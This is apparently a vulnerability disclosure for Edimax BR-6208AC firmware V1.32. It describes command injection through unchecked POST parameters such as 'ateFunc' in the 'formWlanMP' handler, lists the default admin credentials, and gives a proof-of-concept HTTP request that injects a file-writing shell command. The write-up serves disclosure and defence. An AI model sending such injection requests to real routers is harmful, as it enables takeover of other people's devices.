



## **Description**

A command injection and buffer overflow vulnerability was discovered in the Edimax BR-6208AC firmware version ​**V1.32**. The vulnerability arises from the improper input validation of the parameters (example 'ateFunc') in the 'formWlanMP' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: BR-6208AC
- ​**Version**: V1.32

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/BR-6208AC_1.32.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 


## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formWlanMP' is below:



- ​**websGetVar** retrieves POST parameters 'ateFunc', ..., 'e2pTxPwDeltaN'.
- **system()** is used without check, resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formWlanMP HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 202  
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/wireless_basic.asp
Upgrade-Insecure-Requests: 1  
  
ateFunc=;echo 123>/poc.txt;
```

After the request we can see the file 'poc.txt' been created in the root directory.

After verification, we found that all the above parameters in vunlerable code have the risk of command injection.